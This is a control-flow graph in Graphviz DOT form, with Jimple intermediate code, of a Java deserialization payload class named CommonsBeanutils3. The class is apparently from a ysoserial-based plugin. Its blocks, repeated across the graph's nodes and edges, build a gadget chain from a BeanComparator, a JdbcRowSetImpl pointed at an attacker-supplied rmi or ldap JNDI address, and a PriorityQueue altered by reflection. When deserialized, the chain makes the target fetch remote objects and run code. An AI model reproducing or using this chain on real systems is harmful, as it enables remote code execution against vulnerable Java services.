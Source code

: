 digraph "unitGraph" {
    "Block 0:
[preds: ] [succs: 1 2 ]
r15 := @this: me.gv7.woodpecker.yso.payloads.CommonsBeanutils3;
r0 := @parameter0: java.lang.String;
$r1 = virtualinvoke r0.<java.lang.String: java.lang.String toLowerCase()>();
$z0 = virtualinvoke $r1.<java.lang.String: boolean startsWith(java.lang.String)>(\"jndi:\");
if $z0 == 0 goto $r2 = new java.lang.Exception;
"
    "Block 1:
[preds: 0 ] [succs: 3 ]
$r3 = \"jndi:\";
$i0 = virtualinvoke $r3.<java.lang.String: int length()>();
r16 = virtualinvoke r0.<java.lang.String: java.lang.String substring(int)>($i0);
goto [?= $r4 = new org.apache.commons.beanutils.BeanComparator];
"
    "Block 2:
[preds: 0 ] [succs: ]
$r2 = new java.lang.Exception;
specialinvoke $r2.<java.lang.Exception: void <init>(java.lang.String)>(\"Command format is: [rmi|ldap]://host:port/obj\");
throw $r2;
"
    "Block 3:
[preds: 1 ] [succs: ]
$r4 = new org.apache.commons.beanutils.BeanComparator;
specialinvoke $r4.<org.apache.commons.beanutils.BeanComparator: void <init>(java.lang.String)>(\"lowestSetBit\");
r5 = $r4;
$r6 = new com.sun.rowset.JdbcRowSetImpl;
specialinvoke $r6.<com.sun.rowset.JdbcRowSetImpl: void <init>()>();
r7 = $r6;
virtualinvoke r7.<com.sun.rowset.JdbcRowSetImpl: void setDataSourceName(java.lang.String)>(r16);
virtualinvoke r7.<com.sun.rowset.JdbcRowSetImpl: void setMatchColumn(java.lang.String)>(\"foo\");
$r8 = new java.util.PriorityQueue;
specialinvoke $r8.<java.util.PriorityQueue: void <init>(int,java.util.Comparator)>(2, r5);
r9 = $r8;
$r10 = new java.math.BigInteger;
specialinvoke $r10.<java.math.BigInteger: void <init>(java.lang.String)>(\"1\");
virtualinvoke r9.<java.util.PriorityQueue: boolean add(java.lang.Object)>($r10);
$r11 = new java.math.BigInteger;
specialinvoke $r11.<java.math.BigInteger: void <init>(java.lang.String)>(\"1\");
virtualinvoke r9.<java.util.PriorityQueue: boolean add(java.lang.Object)>($r11);
staticinvoke <me.gv7.woodpecker.yso.payloads.util.Reflections: void setFieldValue(java.lang.Object,java.lang.String,java.lang.Object)>(r5, \"property\", \"databaseMetaData\");
$r12 = staticinvoke <me.gv7.woodpecker.yso.payloads.util.Reflections: java.lang.Object getFieldValue(java.lang.Object,java.lang.String)>(r9, \"queue\");
$r13 = (java.lang.Object[]) $r12;
r14 = (java.lang.Object[]) $r13;
r14[0] = r7;
r14[1] = r7;
return r9;
"
    "Block 0:
[preds: ] [succs: 1 2 ]
r15 := @this: me.gv7.woodpecker.yso.payloads.CommonsBeanutils3;
r0 := @parameter0: java.lang.String;
$r1 = virtualinvoke r0.<java.lang.String: java.lang.String toLowerCase()>();
$z0 = virtualinvoke $r1.<java.lang.String: boolean startsWith(java.lang.String)>(\"jndi:\");
if $z0 == 0 goto $r2 = new java.lang.Exception;
"->"Block 1:
[preds: 0 ] [succs: 3 ]
$r3 = \"jndi:\";
$i0 = virtualinvoke $r3.<java.lang.String: int length()>();
r16 = virtualinvoke r0.<java.lang.String: java.lang.String substring(int)>($i0);
goto [?= $r4 = new org.apache.commons.beanutils.BeanComparator];
";
    "Block 0:
[preds: ] [succs: 1 2 ]
r15 := @this: me.gv7.woodpecker.yso.payloads.CommonsBeanutils3;
r0 := @parameter0: java.lang.String;
$r1 = virtualinvoke r0.<java.lang.String: java.lang.String toLowerCase()>();
$z0 = virtualinvoke $r1.<java.lang.String: boolean startsWith(java.lang.String)>(\"jndi:\");
if $z0 == 0 goto $r2 = new java.lang.Exception;
"->"Block 2:
[preds: 0 ] [succs: ]
$r2 = new java.lang.Exception;
specialinvoke $r2.<java.lang.Exception: void <init>(java.lang.String)>(\"Command format is: [rmi|ldap]://host:port/obj\");
throw $r2;
";
    "Block 1:
[preds: 0 ] [succs: 3 ]
$r3 = \"jndi:\";
$i0 = virtualinvoke $r3.<java.lang.String: int length()>();
r16 = virtualinvoke r0.<java.lang.String: java.lang.String substring(int)>($i0);
goto [?= $r4 = new org.apache.commons.beanutils.BeanComparator];
"->"Block 3:
[preds: 1 ] [succs: ]
$r4 = new org.apache.commons.beanutils.BeanComparator;
specialinvoke $r4.<org.apache.commons.beanutils.BeanComparator: void <init>(java.lang.String)>(\"lowestSetBit\");
r5 = $r4;
$r6 = new com.sun.rowset.JdbcRowSetImpl;
specialinvoke $r6.<com.sun.rowset.JdbcRowSetImpl: void <init>()>();
r7 = $r6;
virtualinvoke r7.<com.sun.rowset.JdbcRowSetImpl: void setDataSourceName(java.lang.String)>(r16);
virtualinvoke r7.<com.sun.rowset.JdbcRowSetImpl: void setMatchColumn(java.lang.String)>(\"foo\");
$r8 = new java.util.PriorityQueue;
specialinvoke $r8.<java.util.PriorityQueue: void <init>(int,java.util.Comparator)>(2, r5);
r9 = $r8;
$r10 = new java.math.BigInteger;
specialinvoke $r10.<java.math.BigInteger: void <init>(java.lang.String)>(\"1\");
virtualinvoke r9.<java.util.PriorityQueue: boolean add(java.lang.Object)>($r10);
$r11 = new java.math.BigInteger;
specialinvoke $r11.<java.math.BigInteger: void <init>(java.lang.String)>(\"1\");
virtualinvoke r9.<java.util.PriorityQueue: boolean add(java.lang.Object)>($r11);
staticinvoke <me.gv7.woodpecker.yso.payloads.util.Reflections: void setFieldValue(java.lang.Object,java.lang.String,java.lang.Object)>(r5, \"property\", \"databaseMetaData\");
$r12 = staticinvoke <me.gv7.woodpecker.yso.payloads.util.Reflections: java.lang.Object getFieldValue(java.lang.Object,java.lang.String)>(r9, \"queue\");
$r13 = (java.lang.Object[]) $r12;
r14 = (java.lang.Object[]) $r13;
r14[0] = r7;
r14[1] = r7;
return r9;
";
}
